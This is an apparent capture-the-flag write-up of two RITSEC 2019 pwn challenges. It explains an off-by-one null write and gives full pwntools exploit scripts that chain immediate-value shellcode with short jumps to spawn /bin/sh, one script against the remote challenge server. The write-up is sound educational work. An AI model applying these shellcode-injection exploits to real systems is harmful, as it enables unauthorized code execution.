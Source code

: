 # RITSEC 2019
## Pwn
### jit-calc (495 points, 29 solved)
The bug is in the `s[strlen(input)-1]=0x0`,  which could result in an overwrite to the last entry of the offset array to 0x58 if provided `strlen(input) == 0`.

We then change index to the last entry and start writing code at offset 0x58. Using multiple writeImmediate64 instructions(10 bytes in length), we can overwrite the start of the second entry with the 8 bytes immediate value which we can control. That is, if we run the second entry, it runs the instruction we provided with that 8 bytes.

In order to get shell, I added a relative short jmp instruction, which is 2 bytes in length, after each instruction to connect the shellcode. ([Reference](https://thestarman.pcministry.com/asm/2bytejumps.htm))

For the shellcode, because PIE is closed, I used sys_read to read `/bin/sh` to writable memory and `execve(writeable_memory, ptr_to_null, NULL)` to get shell.

```python
from pwn import *
#context.log_level=  'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
p = process('./jit-calc')
#p = remote('ctfchallenges.ritsec.club',  8000)

def debug(bps=[]):
	cmd = ''
	cmd += ''.join(['b *{:#x}\n'.format(b) for b in bps])
	cmd += 'c'
	gdb.attach(p, cmd)
	pause()

def switch_write():
	p.recv()
	p.sendline(str(2))

def write_finish():
	p.recv()
	p.sendline(str(1))

def write_constant(val):
	p.recv()
	p.sendline(str(3))
	p.recv()
	p.sendline(str(1)) # doesn't matter the register
	p.recv()
	p.sendline(val)

def change_index(index):
	p.recv()
	p.sendline(str(1))
	p.recv()
	p.sendline(str(index))

def run():
	p.recv()
	p.sendline(str(4))

def shellcode(code):
	shell = asm(code)
	offset = len(shell)+2+2+8
	offset = negate(offset,width=8)
	shell += '\xeb'
	shell += p8(offset)
	return str(u64(shell.ljust(8, '\x00')))

bps = [0x401029]
switch_write()
write_finish()

p.recv()
p.sendline('\x00')

change_index(7)
switch_write()
for i in range(91-9):
	write_constant('11111111')

'''
shellcode
'''

write_constant(shellcode('syscall'))
write_constant(shellcode('mov edx, 0'))
write_constant(shellcode('mov esi, 0x602150'))
write_constant(shellcode('mov edi, 0x602130'))
write_constant(shellcode('mov eax, 0x3b'))
write_constant(shellcode('syscall'))
write_constant(shellcode('mov edx, 7'))
write_constant(shellcode('mov esi, 0x602130'))
write_constant(shellcode('xor rdi, rdi'))
write_constant(shellcode('xor rax, rax'))

write_finish()

#debug(bps)
change_index(1)
run()
p.send('/bin/sh\x00')

p.interactive()
```

### jit-calc2 (500 points, 9 solved)
The program-flow is nearlly as the same as jit-calc, except this time the binary has PIE protection.

Rather than calling `sys_write`, I used `push ax` to push `/bin/sh\x00` on stack, same as NULL for the second parameter of `execve`

```python
from pwn import *
#context.log_level=  'DEBUG'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
#p = process('./jit-calc2')

def debug(bps=[]):
	cmd = ''
	cmd += ''.join(['b *$rebase({:#x})\n'.format(b) for b in bps])
	cmd += 'c'
	gdb.attach(p, cmd)
	pause()

def switch_write():
	p.recv()
	p.sendline(str(2))

def write_finish():
	p.recv()
	p.sendline(str(1))

def write_constant(val):
	p.recv()
	p.sendline(str(3))
	p.recv()
	p.sendline(str(1)) # doesn't matter the register
	p.recv()
	p.sendline(val)

def change_index(index):
	p.recv()
	p.sendline(str(1))
	p.recv()
	p.sendline(str(index))

def run():
	p.recv()
	p.sendline(str(4))

def shellcode(code):
	shell = asm(code)
	offset = len(shell)+2+2+8
	offset = negate(offset,width=8)
	shell += '\xeb'
	shell += p8(offset)
	return str(u64(shell.ljust(8, '\x00')))

while True:
	try:
		p = remote('ctfchallenges.ritsec.club', 8083)
		switch_write()
		write_finish()

		p.recv()
		p.sendline('\x00')

		change_index(7)
		switch_write()
		for i in range(91-14):
			write_constant('11111111')

		'''
		shellcode
		'''

		write_constant(shellcode('syscall'))
		write_constant(shellcode('mov eax, 0x3b'))
		write_constant(shellcode('mov edx, 0'))
		write_constant(shellcode('mov rsi, rsp'))
		write_constant(shellcode('push 0'))
		write_constant(shellcode('mov rdi, rsp'))

		write_constant(shellcode('push ax'))
		write_constant(shellcode('mov eax, 0x622f'))
		write_constant(shellcode('push ax'))
		write_constant(shellcode('mov eax, 0x6e69'))
		write_constant(shellcode('push ax'))
		write_constant(shellcode('mov eax, 0x732f'))
		write_constant(shellcode('push ax'))
		write_constant(shellcode('mov eax, 0x0068'))
		write_constant(shellcode('xor rax, rax'))

		write_finish()

		change_index(1)
		run()

		p.interactive()
	except:
		p.close()
```

### wumb0list (500 points, 11 solved)